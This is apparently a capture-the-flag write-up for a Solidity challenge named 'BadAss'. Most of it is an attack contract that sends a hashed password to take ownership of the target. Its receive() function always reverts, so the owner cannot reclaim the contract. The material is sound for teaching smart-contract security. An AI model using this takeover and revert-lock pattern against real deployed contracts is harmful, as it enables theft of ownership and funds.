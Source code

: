 # BadAss

## Solution :

To validate this challenge, all you have to do is to find the password which is encrypted with the keccak256 procedure and find the good amount of ether to send.

And finally set up a revert system so that the owner can't reclaim the challenge.

To find the password, you need to check the `BadAssFactory.sol` file and to find the ethers' amount, check the amount that you send when you start the challenge.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/BadAss.sol";

contract AttackBadAss {
    
    address payable originalContract;
    string password = "0x476F6F64206A6F622C20796F75206B6E6F7720686F7720746F2066696E642074686520696E666F732061742074686520726F6F742121";

    constructor(address payable _originalContract) public {
        originalContract = _originalContract;
    }
    
    function exploit() public payable {
        require(msg.value == 1 ether);
        bytes memory payload = abi.encodeWithSignature("takeOwnerShip(string)", keccak256(abi.encodePacked(password)));
        address(originalContract).call.value(msg.value)(payload);
    }

    receive() external payable {
        revert("Trigger");
    }
}
```